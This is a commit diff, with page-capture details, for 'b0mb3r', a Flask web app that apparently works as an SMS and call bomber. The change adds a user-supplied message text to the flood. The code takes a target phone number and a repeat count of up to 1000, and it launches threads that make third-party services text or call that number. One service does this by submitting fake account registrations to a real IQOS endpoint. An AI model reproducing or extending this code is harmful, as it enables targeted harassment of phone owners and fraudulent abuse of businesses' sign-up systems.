

Before and after one commit to Denishnc/b0mb3r, a Flask app: page / in a window 1280 px wide. Shown: the top 651 px of the page, without its empty margins (250-1029 px from the left). Run offline with Flask 2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
+2 services & SMS text introduction

```diff
--- a/main.py
+++ b/main.py
@@ -38,11 +38,11 @@ def get_ip():
     return ip
 
 
-def run_service(service_class, module_, phone, country_code, phone_code, type_):
+def run_service(service_class, module_, phone, country_code, phone_code, sms_text, type_):
     if type_ == 'call':
-        getattr(module_, service_class)(phone, [country_code, phone_code]).send_call()
+        getattr(module_, service_class)(phone, [country_code, phone_code], sms_text).send_call()
     else:
-        getattr(module_, service_class)(phone, [country_code, phone_code]).send_sms()
+        getattr(module_, service_class)(phone, [country_code, phone_code], sms_text).send_sms()
     sys.exit()
 
 
@@ -59,6 +59,7 @@ def start():
         country_code = request.form['country']
         phone_code = country_codes[country_code]
         send_calls = request.form['call']
+        sms_text = request.form['smsText']
         send_calls_bool = True if send_calls == 'true' else False
 
         for _ in range(int(count)):
@@ -67,10 +68,12 @@ def start():
                     _ = getattr(module_, service_class).send_call
                     if send_calls_bool:
                         threading.Thread(target=run_service,
-                                         args=(service_class, module_, phone, country_code, phone_code, 'call')).start()
+                                         args=(service_class, module_, phone, country_code, phone_code, sms_text,
+                                               'call')).start()
                 except AttributeError:
                     threading.Thread(target=run_service,
-                                     args=(service_class, module_, phone, country_code, phone_code, 'sms')).start()
+                                     args=(service_class, module_, phone, country_code, phone_code, sms_text,
+                                           'sms')).start()
         return '(ﾉ◕ヮ◕)ﾉ*:・ﾟ✧'
     except (ValueError, KeyError):
         abort(400)
--- a/services/iqos.py
+++ b/services/iqos.py
@@ -4,6 +4,6 @@ from service import Service
 class Iqos(Service):
     def send_sms(self):
         self.session.post('https://ube.pmsm.org.ru/esb/iqos-reg/submission', json={
-            'data': {'firstName': 'Произошёл троллинг', 'lastName': 'Иванов', 'phone': self.formatted_phone,
+            'data': {'firstName': self.sms_text, 'lastName': 'Иванов', 'phone': self.formatted_phone,
                      'email': 'ivanov17@gmail.com', 'password': 'ivanov17',
                      'passwordConfirm': 'ivanov17'}})
--- a/services/service.py
+++ b/services/service.py
@@ -9,10 +9,11 @@ from urllib3.exceptions import InsecureRequestWarning
 class Service:
     user_agent = UserAgent()
 
-    def __init__(self, phone, country_data):
+    def __init__(self, phone, country_data, sms_text='Произошёл троллинг'):
         self.phone = phone
         self.country_code = country_data[0]
         self.phone_code = country_data[1]
+        self.sms_text = sms_text if sms_text != '' else 'Произошёл троллинг'
         self.formatted_phone = self.phone_code + self.phone
         self.session = requests.Session()
 
--- a/templates/index.html
+++ b/templates/index.html
@@ -30,6 +30,12 @@
                 <label for="count"></label>
                 <input class="form-control" id="count" max="1000" min="1" name="count" placeholder="Повторы"
                        required type="number" value="1">
+            </div>
+
+            <div class="col">
+                <label for="smsText"></label>
+                <input class="form-control" id="smsText" max="1000" min="1" name="smsText" placeholder="Текст SMS"
+                        type="text">
             </div>
         </div>
 
```
